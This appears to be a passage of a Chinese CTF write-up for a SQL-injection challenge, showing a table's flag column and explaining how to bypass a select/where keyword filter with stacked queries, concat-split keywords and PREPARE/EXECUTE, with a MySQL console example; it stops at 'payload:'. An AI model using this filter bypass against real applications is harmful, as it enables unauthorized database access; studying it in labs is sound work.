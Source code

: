 注意:MySQL表名为纯数字时(表名和保留字冲突时也是加反引号)，要加反引号：desc `1919810931114514`

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```


有一个flag字段，不用`select`是肯定查不出来的，

虽然这里过滤了select和where等，但是可以通过执行多语句，将要执行的sql语句进行拼接，然后进行预处理，这样就可以将过滤的sql关键字拆分绕过检测。

concat的妙用：

```
mysql> select concat(1,2,3);
+---------------+
| concat(1,2,3) |
+---------------+
| 123           |
+---------------+
1 row in set (0.00 sec)
```

举例：

```
mysql> set @sql=concat('sele','ct user()');PREPARE sql_query from @sql;EXECUTE sql_query;
Query OK, 0 rows affected (0.00 sec)

Query OK, 0 rows affected (0.00 sec)
Statement prepared

+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```

PREPARE是预处理，这里预处理语句必须大写，格式就是PREPARE sql_query from @sql_query;execute sql_query;

所以这就好办了.
payload:
